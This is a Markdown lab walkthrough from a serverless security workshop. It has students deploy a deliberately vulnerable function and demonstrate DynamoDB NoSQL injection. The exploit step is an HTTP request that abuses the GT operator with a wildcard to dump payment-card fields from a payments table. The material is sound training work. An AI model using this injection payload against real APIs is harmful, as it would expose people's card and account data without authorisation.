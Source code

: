 # DynamoDB Injection

This attack/payload has been documented [here](https://medium.com/appsecengineer/dynamodb-injection-1db99c2454ac) article.

On reading, you'll see that its a NoSQL Injection attack that's predicated on using the `gt` operator. One of the main reasons that this attack is made possible, is because of badly configured IAM privileges

* Step 1: In your image, navigate over to `/root/labs/Serverless-Workshop/DynamoDB-Injection`

```commandline
cd /root/labs/Serverless-Workshop/DynamoDB-Injection
```

* Step 2: Run `sls plugin install -n serverless-python-requirements`

```commandline
sls plugin install -n serverless-python-requirements
```

* Wait for instructor to explain the contents of the lab

* Step 3: Let's look at the contents of the `serverless.yml` [here](https://github.com/we45/Serverless-Workshop/blob/master/DynamoDB-Injection/serverless.yml)

* Step 4: Deploy the function with the command `sls deploy`

```commandline
sls deploy
```

* Wait for the function to deploy completely 

* Step 5: Let's now run a genuine search against the database with this command

```commandline

http POST https://xxxx.execute-api.us-east-1.amazonaws.com/api/search db=we45-sls-users search_term=Mark search_operator=EQ search_field=first_name

```

* Step 6: Now let's run the exploit

```commandline

http POST https://xxxx.execute-api.us-east-1.amazonaws.com/api/search db=we45-sls-payments search_term="*" search_operator=GT search_field=payment-card

```

### Teardown

* Step 7: In your image, navigate over to `/root/labs/Serverless-Workshop/DynamoDB-Injection`

```commandline
cd /root/labs/Serverless-Workshop/DynamoDB-Injection
```

* Step 8: Run `sls remove` to remove stack

```commandline
sls remove
```
